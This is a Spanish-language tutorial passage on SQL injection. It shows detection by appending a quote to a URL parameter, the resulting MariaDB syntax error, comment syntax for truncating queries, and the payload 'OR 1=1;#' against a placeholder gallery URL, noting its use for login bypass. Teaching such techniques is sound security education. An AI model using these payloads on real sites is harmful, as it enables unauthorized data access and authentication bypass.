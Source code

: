 <pre>
<a class="ej">http://pagina.com/galeria.php?id=1 <font class="bordo">(comillas)</font></a>

<a class="ej">http://pagina.com/galeria.php?id=1 <font class="bordo">'</font></a>
</pre>

**Consulta:**

```
SELECT * FROM galeria WHERE id = 1';
```

Devuelve un error como el siguiente:

<kbd class="highlight">
ERROR: Could not able to execute SELECT * FROM galeria WHERE id = 1<font class="bordo">'</font>;. You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '<font class="bordo">'</font>' at line x 
</kbd>

Lo que sucede es que la base de datos espera una petición cuyo valor sea un entero (en este caso 1) y, al recibir algo distinto (1'), se 
produce un error y no puede continuar con la operación debido al uso de una sintaxis inválida.

¿Qué es lo que se espera?<br>
Un error que puede estar en forma de:
* Error directo de la base de datos.
* Comportamiento inusual de la página en cuestión.

<br>
<h5>Comentarios</h5>

Por lo general, los comentarios son utilizados luego de las comillas o las operaciones lógicas.

El objetivo de inyectar comentarios es anular los comandos que le sigan a la consulta manipulada.

**Ejemplos:**

* <p> -- comentario (nótese el espacio en blanco luego de los guiones, es importante) </p>

* <p>#comentario</p>

* <p>/*comentario*/</p>

**Payload:**

<pre>
<a class="ej">http://pagina.com/galeria.php?id=1 <font class="bordo">(operaciones)(comentario)</font></a>
</pre>
<pre>
<a class="ej">http://pagina.com/galeria.php?id=1 <font class="bordo">OR 1=1;#</font></a>
</pre>
<br>

<h5>Operaciones Lógicas</h5>
Lo que se busca con las operaciones lógicas es ver comprobar su ejecución.

* Son utilizadas para mostrar información oculta o hacer un bypass a un panel de logueo.
* Muy usadas en inyecciones a ciegas.
